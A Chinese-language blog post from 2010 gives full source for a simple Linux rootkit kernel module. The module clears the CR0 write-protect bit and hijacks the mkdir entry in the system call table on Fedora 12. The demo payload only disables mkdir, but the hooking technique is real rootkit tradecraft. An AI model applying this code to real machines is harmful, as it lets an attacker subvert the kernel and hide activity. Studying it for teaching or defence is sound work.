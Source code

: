 Title: 一个简单的linux rootkit
Date: 2010-04-24           
Category: 编程语言      
Tags: 信息安全, Linux, rootkit


#一个简单的linux rootkit

@(编程语言)[信息安全, Linux, rootkit]

下面提供一个相对完整的rootkit，在Fedora 12上编译运行成功。

	#include <linux/module.h>
	#include <linux/kernel.h>
	#include <asm/unistd.h>
	
	MODULE_LICENSE("GPL");
	
	// addr of sys_call_talbe = 0xc077e3a8，这个值是在/boot目录下，System.map或是以System.map打头的文件中找到的。
	void ** sys_call_table = (void **)0xc077e3a8;
	
	int (*orig_mkdir)(const char *path); //定义一个函数指正，用于保存挟制以前的初始值
	
	int hack_mkdir(const char * path) //定义一个替换函数，它将用来替换某个系统调用
	{
	        printk("<0> this is in hack_mkdir\n");
	        return 0;
	}

下面两个函数比较重要，因为在较新的内核中，sys_call_table的内存是只读的，详见entry_32.S:
	
	.section .rodata,"a"
	#include "syscall_table_32.S"
	
但我们可以通过该cr0寄存器的第16位来取消写保护，cr0寄存器如下：
	
![Alt text](./register.png)


第16位WP位，它控制是否允许处理器向标志为只读属性的内存页写入数据，如果WP=0, 禁用写保护功能。
	
	
	unsigned int clear_cr0(void) // 将WP清0，并返回清0前的值
	{
	        unsigned int cr0 = 0;
	        unsigned int ret;
	        asm volatile("movl %%cr0, %%eax"
	                :"=a"(cr0)
	                );
	        ret = cr0;
	        cr0 &= 0xfffeffff;
	        asm volatile("movl %%eax, %%cr0"
	                :
	                :"a"(cr0)
	                );
	                return ret;
	}
	
	void setback_cr0(unsigned int val) // 将cr0设为val
	{
	        asm volatile("movl %%eax, %%cr0"
	                :
	                :"a"(val)
	                );
	}
	
	static int __init begin(void)
	{
	        unsigned int cr0;
	        orig_mkdir = sys_call_table[__NR_mkdir]; //保存mkdir原来的的地址
	        printk("<0> sys_call_table[__NR_mkdir] = %x\n",  (unsigned int)sys_call_table[__NR_mkdir]);
	
	
	        cr0 = clear_cr0();
	        sys_call_table[__NR_mkdir] = hack_mkdir; //挟持
	        setback_cr0(cr0);
	   
	        printk("<0> sys_call_table[__NR_mkdir] = %x\n", (unsigned int)sys_call_table[__NR_mkdir]);
	
	  
	        return 0;
	}
	
	static void __exit end(void)
	{
	        int cr0;
	        cr0 = clear_cr0();
	        sys_call_table[__NR_mkdir] = orig_mkdir; //恢复mkdir系统调用
	        setback_cr0(cr0);  
	}
	
	module_init(begin);
	module_exit(end);
运行效果：

加载模块后，mkdir命令失效。